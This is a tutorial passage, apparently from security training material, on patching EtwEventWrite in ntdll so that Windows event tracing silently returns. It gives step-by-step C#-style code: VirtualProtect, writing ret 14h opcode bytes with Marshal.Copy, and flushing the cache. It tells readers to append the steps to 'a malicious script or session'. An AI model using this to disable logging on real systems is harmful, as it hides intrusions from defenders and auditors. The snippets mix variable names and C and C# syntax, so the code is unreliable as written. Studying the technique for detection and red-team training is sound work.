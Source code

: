 At a high level, ETW patching can be broken up into five steps:

1\. Obtain a handle for **EtwEventWrite**

2\. Modify memory permissions of the function

3\. Write opcode bytes to memory

4\. Reset memory permissions of the function (optional)

5\. Flush the instruction cache (optional)

At step one, we need to obtain a handle for the address of **EtwEventWrite**. This function is stored within **ntdll**. We will first load the library using **LoadLibrary** then obtain the handle using **GetProcAddress**

> **var ntdll= Win32. LoadLibrary("ntdll.dll");**

> **var etwFunction = Win32.GetProcAddress (ntdll, "EtwEventWrite");**

At step two, we need to modify the memory permissions of the function to allow us to write to the function. The permission of the function is defined by the **flNewProtect** parameter; **0x40** enables X, R, or **RW** access (memory protection constraints).

> **uint oldProtect;**

> **Win32.VirtualProtect(etwFunction, (UIntPtr) patch.Length ,0x40 ,out oldProtect);**

At step three, the function has the permissions we need to write to it, and we have the pre-defined opcode to patch it. Because we are writing to a function and not a process, we can use the infamous **Marshal. Copy** to write our opcode.

> **patch(new byte\[] { 0xc2, 0x14, 0x00 });**

> **Marshal.Copy( patch , 0 , etwEventSend, patch.Length);**

At step four, we can begin cleaning our steps to restore memory permissions as they were.

> **VirtualProtect(etwFunction , 4 , oldProtect , &amp;oldOldProtect );**

At step five, we can ensure the patched function will be executed from the instruction cache.

> **Win32.FlushInstructionCache(etwFunction , NULL );**

We can compile these steps together and append them to a malicious script or session. Use the C# script provided and experiment with this technique.

After the opcode is written to memory, we can view the disassembled function again to observe the patch.

> **779f23c0 c21400 ret 14h**

> **779f23с3 00ес add ah, ch**

> **779f23c5 83e4f8 and esp, OFFFFFFF8h**

> **779f23c8 81ece0000000 sub esp,0E0h**

In the above disassembly, we see exactly what we depicted in our LIFO diagram.

Once the function is patched in memory, it will always return when **EtwEventWrite** is called.

Although this is a beautifully crafted technique, it might not be the best approach depending on your environment since it may restrict more logs than you want for integrity.
